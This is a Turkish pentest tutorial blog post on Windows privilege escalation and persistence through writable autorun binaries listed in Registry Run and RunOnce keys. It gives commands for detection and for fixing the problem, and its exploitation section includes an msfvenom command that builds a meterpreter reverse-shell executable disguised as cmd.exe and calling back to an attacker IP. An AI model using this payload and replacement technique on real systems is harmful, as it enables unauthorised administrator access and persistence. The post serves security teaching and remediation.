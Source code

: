 ```yaml
---
layout: post
title: Modifiable binaries saved as Registry AutoRun
description: "Kayıt Defterindeki Düzenlenebilir Başlangıç Uygulaması."
modified: 2020-09-03
comments: true
categories: TR
tags: [yetki yükseltme, privilege escalation, windows, pentest]
---
```



## Özet

Windows Kayıt Defteri (Registery), yüklü programlar ve donanımlar için bilgiler, ayarlar, seçenekler ve diğer değerleri tutar. Kayıt defterini, işletim sistemi çekirdeği, aygıt sürücüleri, hizmetler, hesap yöneticisi ve kullanıcı arabiriminin tümü kullanabilir. 

İşletim sisteminin içine bu kadar yerleşmiş bir araç kötü niyetli kullanımla işletim sisteminin işleyişinde ciddi değişikliklere yol açabilmektedir.


## Detaylı Bilgi

Windows her oturum açılışında istenen dosyaların otomatik olarak başlatılmasını sağlayan bir özelliği vardır. Bu özelliği kayıt defteri üzerinden gerçekeştirmek için Run ve RunOnce kayıtlarına, çalıştırılması istenen dosya yolu verilecek şekilde anahtar girilmelidir.
Aşağıda ki kayıtlar içerisine anahtar girilerek istenen dosyalar her oturum açılışında çaıştırılabilir.

~~~
HKLM\Software\Microsoft\Windows\CurrentVersion\Run
HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce
HKLM\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Run
HKLM\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\RunOnce
HKCU\Software\Microsoft\Windows\CurrentVersion\Run
HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
HKCU\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Run
HKCU\Software\Wow6432Npde\Microsoft\Windows\CurrentVersion\RunOnce
~~~

Her oturum açılışında otomatik dosya çalıştırma Windows’un sağladığı bir özelliktir. Ancak yanlış yapılandırılmış ise kötü niyetli kişiler tarafından istismar edilebilir. Eğer ki sisteme erişimi olan kötü niyetli kişi, otomatik başlatılan bu dosyaları değiştirme ayrıcalıklarına sahipse ilgili dosyanın yerine kendi zararlı yazılımını yerleştirerek, zararlının her oturum açılışında çalıştırılmasını sağlayacaktır. Elde ettiği erişim de, oturum açan kullanıcının ayrıcalıklarına sahip olacaktır. Bu yöntem hem hak yükseltme yöntemi hem de sistemde kalıcı olma yöntemi olarak kullanılabilmektedir. 

## Bulunması

Masaüstünde bulunan CMD.exe uygulamasının oturum açıldığında otomatik olarak başlayacağı senaryoyu inceleyelim. Yanlış yapılandırma sonucunu otomatik olarak bulmak için DazzleUp’ı kullanabiliriz. Çıktı incelendiğinde hangi kayıt defteri anahtarı ve hangi dosya olduğu görünmektedir. DazzleUp’ın verdiği ekran görüntüsü aşağıdadır.

<p align="center">
	<img src="/images/mod_bin_save_autoun_ss/1.png" alt="">
</p>

İlgili kayıt, kayıt defterinde arandığında aşağıdaki gibi gözükmektedir.

<p align="center">
	<img src="/images/mod_bin_save_autoun_ss/2.png" alt="">
</p>

Eğer manuel olarak test edilmesi gerekirse ilk adımda hangi uygulamaların başlangıç uygulaması olduğuna bakılmalı. Başlangıç uygulamalarının tespiti için;

~~~
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
reg query HKLM\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Run
reg query HKLM\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\RunOnce
reg query HKCU\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\Software\Wow6432Npde\Microsoft\Windows\CurrentVersion\RunOnce
~~~

komutları **cmd** ya da **powershell** üzerinden çalıştırılabilir. Örnek çıktı aşağıda verilmiştir.

<p align="center">
	<img src="/images/mod_bin_save_autoun_ss/3.png" alt="">
</p>

**NOT:** HKCU o an ki kullanıcıyı etkileyecektir. HKLM tüm makineyi etkileyecektir. Run her oturum açılışında çalıştırmaya devam edecek. RunOnce ise bir seferlik çalışmasını sağlayacaktır.

Bulunan başlangıç uygulamaları üzerinde değişiklik yapma izninin olup olmadığı araştırılmalıdır. Bunun için **icacls.exe** kullanılabilir. 

```powershell
icacls.exe "C:\Users\test\Desktop\cmd.exe"
```

Uygulamanın **test** kullanıcısı tarafından değiştirilebilir olduğu aşağıda ki ekran görüntüsünde gösterilmiştir.

<p align="center">
	<img src="/images/mod_bin_save_autoun_ss/4.png" alt="">
</p>

**NOT:** Icacls size **F** (Full), **M** (Modify), **RX** (Read and Executable), **R** (Readonly), **W** (Writeonly) kısaltılmış olmak üzere bilgi verir.
Ayrıca dosyanın **Güvenlik** ayarları da kullanılabilir.

<p align="center">
	<img src="/images/mod_bin_save_autoun_ss/5.png" alt="">
</p>

Bu hali ile cmd.exe dosyası test kullanıcısı tarafından değiştirilebilir olduğu için sistemde test kullanıcısı ile elde edilmiş bir oturum var ise bu dosya başka bir zararlı yazılım ile aynı isimde olacak şekilde değiştirilebilir. Bu sağlandığında her oturum açılışında tekrar bir oturum elde edilecektir. Elde edilen uzak erişim, hangi kullanıcı oturum açtı ise o kullanıcı üzerinden elde edilmiş olacaktır. Eğer Administrator kulllanıcısı ile oturum açılırsa sistemde Administrator kullanıcısı üzerinden bir uzak erişim elde edilecektir. 

## İstismar Edilmesi

Zararlı yazılım üretilerek sisteme ilgili dosyanın yerine yerleştirilecektir. Bunun için ilk adımda zararlı üretilecektir. Zararlının üretildiğine dair ekran görüntüsü aşağıda verilmiştir. 

```bash
msfvenom --platform windows -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.6.182 LPORT=445 -f exe -o cmd.exe
```
<p align="center">
	<img src="/images/mod_bin_save_autoun_ss/6.png" alt="">
</p>

İlgili dosyanın hedef makineye daha önceden elde edilmiş bir oturum üzerinden yüklenmesine dair ekran görüntüsü aşağıda verilmiştir.

<p align="center">
	<img src="/images/mod_bin_save_autoun_ss/7.png" alt="">
</p>

Administrator kullanıcısı oturum açtığında elde edilecek oturum Administrator kullanıcısı ayrıcalıklarında olacaktır. Böylece hak yükseltme yapılabilecektir. Eğer başka kullanıcı oturum açarsa elde edilecek oturum o kullanıcının ayrıcalıklarında olacaktır. **Administrator** kullanıcısı oturum açtığında elde edilen oturumun ekran görüntüsü aşağıdadır.

<p align="center">
	<img src="/images/mod_bin_save_autoun_ss/8.png" alt="">
</p>

**NOT:** Dosya kimler tarafından çalıştırılabilir iznine sahipse sadece o kullanıcılardan erişim elde edilebilir. Örnek olarak dosya izinlerine **Everyone** eklenirse her kullanıcı bu dosyayı çalıştırabileceği için her kullanıcı oturum açtığında oturum elde edilebilir olacaktır. Everyone izinleri açıldığına dair ekran görüntüsü aşağıda verilmiştir.

<p align="center">
	<img src="/images/mod_bin_save_autoun_ss/9.png" alt="">
</p>

Örneğin **user1** kullanıcısının oturum açtığında elde edilen oturum aşağıda gösterilmiştir.

<p align="center">
	<img src="/images/mod_bin_save_autoun_ss/10.png" alt="">
</p>

## Çözüm

Mevcut durumu gidermek için eğer başlangıçta dosyanın çalıştırılması gerekiyorsa dosya değiştirme ve çalıştırma izinlerini düzenleyebilirsiniz. Böylelikle sadece istenen kullanıcı oturum açtığında dosya çalışmış olacak.

Bir diğer yöntem ise yanlış yapılandırılmış anahtarları silmek olacaktır ancak Windows'un sağladığı bir özelliği kullanmamak olacaktır. Bunun yerine hatalı yapılandırmaları düzenlemek en mantıklısı olacaktır. Yanlış yapılandırmanın olabileceği kayıtlar;
~~~
HKLM\Software\Microsoft\Windows\CurrentVersion\Run
HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce
HKLM\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Run
HKLM\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\RunOnce
HKCU\Software\Microsoft\Windows\CurrentVersion\Run
HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
HKCU\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Run
HKCU\Software\Wow6432Npde\Microsoft\Windows\CurrentVersion\RunOnce
~~~

içerisinde bulunabilir.
Yanlış yapılandırılmış anahtarın temizlendiğine dair ekran görüntüsü aşağıda verilmiştir.

<p align="center">
	<img src="/images/mod_bin_save_autoun_ss/11.png" alt="">
</p>

Hatalı yapılandırmanın giderildiğine dair ekran görüntüsü aşağıda verilmiştir.

<p align="center">
	<img src="/images/mod_bin_save_autoun_ss/12.png" alt="">
</p>

## Kaynakça:

* https://en.wikipedia.org/wiki/Windows_Registry
* https://docs.microsoft.com/en-us/windows/win32/setupapi/run-and-runonce-registry-keys
* https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/icacls
* https://github.com/hlldz/dazzleUP
